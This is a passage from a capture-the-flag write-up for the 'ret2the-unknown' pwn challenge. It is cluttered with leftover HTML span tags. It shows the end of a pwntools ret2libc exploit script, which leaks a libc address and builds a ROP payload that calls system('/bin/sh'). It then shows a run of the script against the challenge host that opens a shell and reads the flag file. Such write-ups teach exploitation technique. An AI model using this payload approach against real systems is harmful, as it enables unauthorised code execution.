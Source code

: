 print(libc.symbols[</span><span class="c1 c4">"system"</span><span class="c1">])  
libc.address = int(printf_address,16) - libc.symbols[</span><span class="c1 c4">"printf"</span><span class="c1">]  

</span><span class="c1 c12"># Get system and bin_sh address ready</span><span class="c1">  
system = libc.symbols[</span><span class="c1 c4">"system"</span><span class="c1">]  
bin_sh = next(libc.search(b</span><span class="c1 c4">"/bin/sh"</span><span class="c1">))  

log.success(f</span><span class="c1 c4">"libc base found at: {hex(libc.address)}"</span><span class="c1">)  
log.info(f</span><span class="c1 c4">"system at: {hex(system)}"</span><span class="c1">)  
log.info(f</span><span class="c1 c4">"/bin/sh at: {hex(bin_sh)}"</span><span class="c1">)  

</span><span class="c1 c12"># Creating the final payload</span><span class="c1">  
pop_rdi = 0x00000000004012a3  
payload = b'A'*40 + p64(pop_rdi) + p64(bin_sh) + p64(system)  

p.sendline(payload)  
p.interactive()</span>

</td>

</tr>

</tbody>

</table>

<span class="c11"></span>

<span class="c11">Running the exploit results in the successful return of a shell:</span>

<a id="t.2c54514597c2dd09ce818a40a78affe6df290e2a"></a><a id="t.14"></a>

<table class="c7">

<tbody>

<tr class="c22">

<td class="c0" colspan="1" rowspan="1">

<span class="c1">┌─[0xd4y@Writeup]─[~/business/ctf/redpwn/pwn/ret2the-unknown]  
└──╼ $python3 poc.py  
[+] Opening connection</span> <span class="c3">to</span><span class="c1">mc.ax</span> <span class="c3">on</span><span class="c1">port 31568: Done  
281024  
[+] libc base found</span> <span class="c3">at</span><span class="c1">: 0x7ff17ea82000  
[*] system</span> <span class="c3">at</span><span class="c1">: 0x7ff17eac69c0  
[*] /bin/sh</span> <span class="c3">at</span><span class="c1">: 0x7ff17ec03519  
[*] Switching</span> <span class="c3">to</span><span class="c1"> interactive mode  

</span><span class="c3">that</span><span class="c1">board meeting was a *smashing* success! rob loved</span> <span class="c3">the</span><span class="c1"> challenge!  
</span><span class="c3">in</span><span class="c1">fact, he loved</span> <span class="c3">it</span><span class="c1">so much he sponsored</span> <span class="c3">me</span><span class="c1">a business trip</span> <span class="c3">to</span><span class="c1"> this place called 'libc'...  
</span><span class="c3">where</span><span class="c1"> </span><span class="c3">is</span><span class="c1">this place? can you help</span> <span class="c3">me</span><span class="c1"> </span><span class="c3">get</span><span class="c1">there safely?  
phew, good</span> <span class="c3">to</span><span class="c1">know. shoot! i forgot!  
rob said i'd need this</span> <span class="c3">to</span><span class="c1"> </span><span class="c3">get</span><span class="c1">there: 7ff17eada560  
good luck!  
$</span> <span class="c3">id</span><span class="c1">  
uid=1000 gid=1000 groups=1000  
$ ls  
flag.txt  
</span><span class="c3">run</span><span class="c1">  
$ cat flag.txt  
flag{ro</span><span class="c1 c20">[REDACTED]</span><span class="c1">sing}</span>
